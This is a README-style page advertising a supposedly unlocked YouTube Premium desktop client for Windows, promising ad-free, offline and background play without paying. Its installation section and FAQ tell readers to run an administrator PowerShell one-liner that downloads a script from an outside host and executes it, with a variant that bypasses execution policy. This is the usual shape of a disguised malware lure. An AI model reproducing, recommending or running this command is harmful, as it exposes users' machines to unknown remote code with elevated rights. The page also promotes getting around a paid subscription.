

<div align="center">


<br>


# YouTube Premium Features Desktop Client
**Premium · Ad-free · Background**
<br>
**Premium · Ad-free · Background**
<br>
Premium · Pro · Full build · Windows



**Fully unlocked YouTube Premium Desktop — ad-free streaming, background play, offline downloads and YouTube Music library sync.**

</div>

---

> Premium desktop client unlocks ad-free playback, background play and YouTube Music — watch and listen without monthly billing.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

- 🎬 **Ad-free video** — Watch content without interruptions or banners.
- 📥 **Offline downloads** — Save videos and playlists for offline viewing.
- 🎵 **YouTube Music** — Full music streaming and library sync enabled.
- 📱 **Background play** — Audio continues while using other apps.
- 🔓 **Premium badges** — Member features and exclusive content active.
- 📺 **4K streaming** — Highest quality playback without restrictions.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 4 GB minimum |
| **Disk** | 2 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 4 GB minimum, 2 GB free space.
</details>


TAGS
youtube-premium, youtube-desktop, ad-free-youtube, youtube-music, offline-video, background-play, youtube-2026, streaming, video-platform, entertainment, media-player, music-streaming, multimedia, youtube-premium-features, youtube-premium-features-pc
